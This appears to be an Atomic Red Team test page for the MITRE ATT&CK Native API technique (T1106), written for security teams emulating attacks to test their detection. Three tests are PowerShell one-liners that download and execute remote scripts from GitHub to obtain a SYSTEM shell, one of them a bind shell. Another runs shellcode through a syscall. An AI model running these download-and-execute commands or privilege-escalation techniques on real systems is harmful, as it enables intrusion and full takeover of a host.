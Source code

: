# T1106 - Native API
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1106)
<blockquote>Adversaries may interact with the native OS application programming interface (API) to execute behaviors. Native APIs provide a controlled means of calling low-level OS services within the kernel, such as those involving hardware/devices, memory, and processes.(Citation: NT API Windows)(Citation: Linux Kernel API) These native APIs are leveraged by the OS during system boot (when other system components are not yet initialized) as well as carrying out tasks and requests during routine operations.

Adversaries may abuse these OS API functions as a means of executing behaviors. Similar to [Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059), the native API and its hierarchy of interfaces provide mechanisms to interact with and utilize various components of a victimized system.

Native API functions (such as <code>NtCreateProcess</code>) may be directed invoked via system calls / syscalls, but these features are also often exposed to user-mode applications via interfaces and libraries.(Citation: OutFlank System Calls)(Citation: CyberBit System Calls)(Citation: MDSec System Calls) For example, functions such as the Windows API <code>CreateProcess()</code> or GNU <code>fork()</code> will allow programs and scripts to start other processes.(Citation: Microsoft CreateProcess)(Citation: GNU Fork) This may allow API callers to execute a binary, run a CLI command, load modules, etc. as thousands of similar API functions exist for various system operations.(Citation: Microsoft Win32)(Citation: LIBC)(Citation: GLIBC)

Higher level software frameworks, such as Microsoft .NET and macOS Cocoa, are also available to interact with native APIs. These frameworks typically provide language wrappers/abstractions to API functionalities and are designed for ease-of-use/portability of code.(Citation: Microsoft NET)(Citation: Apple Core Services)(Citation: MACOS Cocoa)(Citation: macOS Foundation)

Adversaries may use assembly to directly or in-directly invoke syscalls in an attempt to subvert defensive sensors and detection signatures such as user mode API-hooks.(Citation: Redops Syscalls) Adversaries may also attempt to tamper with sensors and defensive tools associated with API monitoring, such as unhooking monitored functions via [Disable or Modify Tools](https://attack.mitre.org/techniques/T1562/001).</blockquote>

## Atomic Tests

- [Atomic Test #1 - Execution through API - CreateProcess](#atomic-test-1---execution-through-api---createprocess)

- [Atomic Test #2 - WinPwn - Get SYSTEM shell - Pop System Shell using CreateProcess technique](#atomic-test-2---winpwn---get-system-shell---pop-system-shell-using-createprocess-technique)

- [Atomic Test #3 - WinPwn - Get SYSTEM shell - Bind System Shell using CreateProcess technique](#atomic-test-3---winpwn---get-system-shell---bind-system-shell-using-createprocess-technique)

- [Atomic Test #4 - WinPwn - Get SYSTEM shell - Pop System Shell using NamedPipe Impersonation technique](#atomic-test-4---winpwn---get-system-shell---pop-system-shell-using-namedpipe-impersonation-technique)

- [Atomic Test #5 - Run Shellcode via Syscall in Go](#atomic-test-5---run-shellcode-via-syscall-in-go)


<br/>

## Atomic Test #1 - Execution through API - CreateProcess
Execute program by leveraging Win32 API's. By default, this will launch calc.exe from the command prompt.

**Supported Platforms:** Windows


**auto_generated_guid:** 99be2089-c52d-4a4a-b5c3-261ee42c8b62





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| source_file | Location of the CSharp source file to compile and execute | path | PathToAtomicsFolder&#92;T1106&#92;src&#92;CreateProcess.cs|
| output_file | Location of the payload | path | %tmp%&#92;T1106.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /out:"#{output_file}" /target:exe "#{source_file}"
%tmp%/T1106.exe
```




#### Dependencies:  Run with `powershell`!
##### Description: #{source_file} must exist on system.
##### Check Prereq Commands:
```powershell
if (Test-Path "#{source_file}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{source_file}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1106/src/CreateProcess.cs" -OutFile "#{source_file}"
```




<br/>
<br/>

## Atomic Test #2 - WinPwn - Get SYSTEM shell - Pop System Shell using CreateProcess technique
Get SYSTEM shell - Pop System Shell using CreateProcess technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** ce4e76e6-de70-4392-9efe-b281fc2b4087






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/Get-System-Techniques/master/CreateProcess/Get-CreateProcessSystem.ps1')
```






<br/>
<br/>

## Atomic Test #3 - WinPwn - Get SYSTEM shell - Bind System Shell using CreateProcess technique
Get SYSTEM shell - Bind System Shell using CreateProcess technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 7ec5b74e-8289-4ff2-a162-b6f286a33abd






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/Get-System-Techniques/master/CreateProcess/Get-CreateProcessSystemBind.ps1')
```






<br/>
<br/>

## Atomic Test #4 - WinPwn - Get SYSTEM shell - Pop System Shell using NamedPipe Impersonation technique
Get SYSTEM shell - Pop System Shell using NamedPipe Impersonation technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** e1f93a06-1649-4f07-89a8-f57279a7d60e






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/Get-System-Techniques/master/NamedPipe/NamedPipeSystem.ps1')
```






<br/>
<br/>

## Atomic Test #5 - Run Shellcode via Syscall in Go
Runs shellcode in the current running process via a syscall.

Steps taken with this technique
1. Allocate memory for the shellcode with VirtualAlloc setting the page permissions to Read/Write
2. Use the RtlCopyMemory macro to copy the shellcode to the allocated memory space
3. Change the memory page permissions to Execute/Read with VirtualProtect
4. Use syscall to execute the entrypoint of the shellcode

- PoC Credit: (https://github.com/Ne0nd0g/go-shellcode#syscall)

**Supported Platforms:** Windows


**auto_generated_guid:** ae56083f-28d0-417d-84da-df4242da1f7c






#### Attack Commands: Run with `powershell`! 


```powershell
$PathToAtomicsFolder\T1106\bin\x64\syscall.exe -debug
```

#### Cleanup Commands:
```powershell
Stop-Process -Name CalculatorApp -ErrorAction SilentlyContinue
```





<br/>
